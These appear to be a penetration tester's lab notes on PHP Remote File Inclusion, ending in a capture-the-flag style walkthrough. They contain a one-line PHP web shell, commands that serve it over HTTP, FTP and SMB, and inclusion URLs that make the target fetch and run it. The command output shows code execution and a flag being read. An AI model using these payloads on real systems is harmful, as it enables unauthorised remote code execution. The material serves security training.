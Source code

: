# Remote File Inclusion (RFI)

Remote File Inclusion : certain functions allow the injection of a remote file which is not present on the web server

Local vs. Remote File Inclusion

Function	Read Content	Execute	Remote URL

PHP			

include()/include_once()	✅	✅	✅

file_get_contents()	✅	❌	✅

Java			

import	✅	✅	✅

.NET			

@Html.RemotePartial()	✅	❌	✅

include	✅	✅	✅


## Checking PHP Configurations

--> User CURL or BURP because the response can be very long

echo 'W1BIUF0KCjs7Ozs7Ozs7O...SNIP...4KO2ZmaS5wcmVsb2FkPQo=' | base64 -d | grep allow_url_include
allow_url_include = On

## Verify RFI

http://<SERVER_IP>:<PORT>/index.php?language=http://127.0.0.1:80/index.php

## Remote Code Execution with RFI

echo '<?php system($_GET["cmd"]); ?>' > shell.php

### HTTP

sudo python3 -m http.server <LISTENING_PORT>
Serving HTTP on 0.0.0.0 port <LISTENING_PORT> (http://0.0.0.0:<LISTENING_PORT>/) ...

http://<SERVER_IP>:<PORT>/index.php?language=http://<OUR_IP>:<LISTENING_PORT>/shell.php&cmd=id

### FTP

sudo python -m pyftpdlib -p 21
[SNIP] >>> starting FTP server on 0.0.0.0:21, pid=23686 <<<
[SNIP] concurrency model: async
[SNIP] masquerade (NAT) ad
dress: None
[SNIP] passive ports: None

http://<SERVER_IP>:<PORT>/index.php?language=ftp://<OUR_IP>/shell.php&cmd=id

If the server requires valid authentication, then the credentials can be specified in the URL, as follows:

curl 'http://<SERVER_IP>:<PORT>/index.php?language=ftp://user:pass@localhost/shell.php&cmd=id'
...SNIP...
uid=33(www-data) gid=33(www-data) groups=33(www-data)

### SMB

If the vulnerable web application is hosted on a Windows server :

impacket-smbserver -smb2support share $(pwd)
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed

http://<SERVER_IP>:<PORT>/index.php?language=\\<OUR_IP>\share\shell.php&cmd=whoami


--> more likely to work if we were on the same network


## LAB

http://10.129.227.136

http://10.129.227.136/index.php?language=http://127.0.0.1:80/index.php

--> OK vulnerable to RFI

echo '<?php system($_GET["cmd"]); ?>' > shell.php

sudo python3 -m http.server 8081

http://10.129.227.136/index.php?language=http://10.10.15.217:8081/shell.php&cmd=id

uid=33(www-data) gid=33(www-data) groups=33(www-data)
Notice: Undefined variable: p2 in /var/www/html/index.php on line 48

--> OK

http://10.129.227.136/index.php?language=http://10.10.15.217:8081/shell.php&cmd=ls%20-l%20/

total 76 

drwxr-xr-x 1 root root 4096 Nov 5 2020 bin 
drwxr-xr-x 2 root root 4096 Apr 24 2018 boot 
drwxr-xr-x 5 root root 340 Dec 31 18:13 dev 
drwxr-xr-x 1 root root 4096 Nov 5 2020 etc 
drwxr-xr-x 1 www-data www-data 4096 Nov 5 2020 exercise 
drwxr-xr-x 2 root root 4096 Apr 24 2018 home 
drwxr-xr-x 1 root root 4096 May 23 2017 lib 
drwxr-xr-x 2 root root 4096 Sep 21 2020 lib64 
drwxr-xr-x 2 root root 4096 Sep 21 2020 media 
drwxr-xr-x 2 root root 4096 Sep 21 2020 mnt 
drwxr-xr-x 2 root root 4096 Sep 21 2020 opt 
dr-xr-xr-x 188 root root 0 Dec 31 18:13 proc 
drwx------ 2 root root 4096 Sep 21 2020 root 
drwxr-xr-x 1 root root 4096 Nov 5 2020 run 
drwxr-xr-x 1 root root 4096 Sep 25 2020 sbin 
drwxr-xr-x 2 root root 4096 Sep 21 2020 srv 
dr-xr-xr-x 13 root root 0 Dec 31 18:13 sys 
drwxrwxrwt 1 root root 4096 Dec 31 18:13 tmp 
drwxr-xr-x 1 root root 4096 Sep 21 2020 usr 
drwxr-xr-x 1 root root 4096 Nov 5 2020 var
Notice: Undefined variable: p2 in /var/www/html/index.php on line 48

http://10.129.227.136/index.php?language=http://10.10.15.217:8081/shell.php&cmd=ls%20-l%20/exercise/

total 4 -rw-r--r-- 1 root root 33 Nov 5 2020 flag.txt
Notice: Undefined variable: p2 in /var/www/html/index.php on line 48

http://10.129.227.136/index.php?language=http://10.10.15.217:8081/shell.php&cmd=cat%20/exercise/flag.txt